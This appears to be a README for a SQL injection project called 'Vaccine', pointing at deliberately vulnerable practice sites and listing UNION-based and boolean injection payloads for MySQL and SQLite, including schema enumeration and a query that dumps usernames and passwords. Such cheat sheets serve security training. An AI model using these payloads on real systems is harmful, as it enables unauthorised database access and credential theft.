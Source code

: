 # Vaccine

# Usage

```
export TOKEN=YOUR_COOKIE
```

# Websites

- https://altoromutual.com/login.jsp

- https://redtiger.labs.overthewire.org/

## UNION

### MySQL
- https://portswigger.net/web-security/sql-injection/union-attacks

- Use `ORDER BY` to check numbers of colums
```
' ORDER BY 1--
' ORDER BY 2--
...
```
- Get database name
```
' UNION SELECT null, DATABASE() #
```
- Get table_names
```
' UNION SELECT null, table_name FROM information_schema.tables WHERE table_type='BASE TABLE' AND table_schema = 'dvwa' #
```
- Get column_names
```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'users'#
```

### SQLite

- Get table_names
```
' union select null, null, tbl_name from sqlite_master--
```
- Get column_names
```
' union select null, null, sql from sqlite_master where name="users"--
```


- working other query examples
```
' union select null, username, password from users --
```


## Boolean

```
' and 1=2--
```
